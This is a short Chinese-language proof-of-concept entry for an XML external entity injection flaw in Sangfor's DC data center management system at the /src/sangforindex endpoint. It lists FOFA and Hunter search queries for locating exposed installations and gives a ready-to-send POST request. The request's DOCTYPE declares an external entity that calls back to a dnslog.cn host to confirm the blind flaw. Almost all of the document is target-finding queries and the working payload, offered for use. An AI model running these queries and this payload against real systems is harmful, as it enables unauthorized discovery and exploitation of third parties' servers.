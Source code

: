# 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 网络测绘

fofa: "SANGFOR 数据中心"

hunter: app.name="SANGFOR 深信服数据中心"

## POC / EXP

```
# 无回显
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```